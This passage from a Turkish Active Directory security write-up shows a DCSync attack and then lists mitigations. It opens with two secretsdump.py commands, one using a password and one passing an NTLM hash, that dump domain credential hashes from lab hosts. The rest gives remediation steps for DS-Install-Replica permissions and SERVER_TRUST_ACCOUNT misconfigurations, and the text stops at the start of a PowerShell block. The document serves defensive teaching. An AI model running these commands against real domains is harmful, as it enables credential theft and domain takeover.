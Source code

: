 ```shell
python3 secretsdump.py windomain.local/forestall\$:Test123.\!@192.168.119.141 -just-dc
```

![Viewing DCSync attack ](image/10.png)

```shell
python3 secretsdump.py windomain.local/iissvcc\$:@192.168.119.165 -hashes :f0d18f87a00e647fa126d4bfbc65b0c2 -just-dc
```

![Viewing DCSync attack ](image/11.png)

Saldırganlar elde ettikleri bu hash özetleri ile PTH (Pass The Hash) yada Golden Ticket vb. saldırılar yaparak sistemde daha yetkil olabilmektedirler.

## Mitigation

1. Active Directory ortamı üzerinde kullanıcılara ve bilgisayarlara verilen yetkiler kontrol edilmelidir. Yanlış verilmiş olan yetkiler düzenlenmeli ve düşürülmelidir.

2. MSA (ManegedServiceAccount) hesaplarının MSDS-ManagedPassword attribute üzerinde tutulan parolayı görebilme ayrıcalığına sahip hesapların tutulduğu MSA'lar üzerindeki PrincipalsAllowedToRetrieveManagedPassword attribute sürekli olarak kontrol edilmeli ve yanlış yetkilendirme yapılmış kullanıcların yetkileri alınmalıdır.

3. Active Directory üzerinde yanlış yapılandırmayla kullanıcı ve bilgisayar hesaplarına verilen çoğaltma DS-Install-Replica (Add/remove replica in domain) izinleri kontrol edilerek gerekli olmayan izinler alınmalıdır. 
   
   a. Yetkisi verilmiş hesapları **Active Directory Users and Computers (dsa.msc)** aracı üzerinde giderilebilir. Bunun için uygulama üzerinden domain objesi detay sayfası (Properties) açılır. **Security** sekmesi altında **Advanced** kısmı açılır. Açılan sayfada **Permission** sekmesi içerisinde **Access** kısmında tanımlanmış DS-Install-Replica (Add/remove replica in domain) ACE (Acces Control Entry) girdilerini  **Remove** diyerek giderebiliriz.

   ![Removing the vulnerability manually](image/9.png)


3. Active Directory üzerinde yanlış yapılandırmayla bilgisayar hesaplarına SERVER_TRUST_ACCOUNT değeri ile verilen yanlış yetkiler geri alınmalıdır. 

    a. Yanlış yetkilerin giderme işlemi **Active Directory Users and Computers (dsa.msc)** aracı ile manuel olarak da gerçekleştirilebilmektedir. Bunun için uygulama üzerinden objenin detay sayfası (Properties) açılır. **Attribute Editor** sekmesi içerisindeki, **UserAccountControl** attribute üzerine **4096** decimal değeri girilerek SERVER_TRUST_ACCOUNT değerine sahip bilgisayar hesabı WORKSTATION_TRUST_ACCOUNT (0x1000) değerine döndürülebilmektedir.


    ![Removing the vulnerability manually](image/8.png)

    b. **Active Directory Users and Computers (dsa.msc)** aracı yanı sıra UserAccounControl attribute üzerinde SERVER_TRUST_ACCOUNT değeri PowerShell kod bloğu yardımıyla etki alanına dahil olan bilgisayar ve MSA hesapları WORKSTATION_TRUST_ACCOUNT (0x1000) değerine döndürülebilmektedir.

    ```powershell
    # Computer Name to be analyzed
    $ComputerName = "forestall"
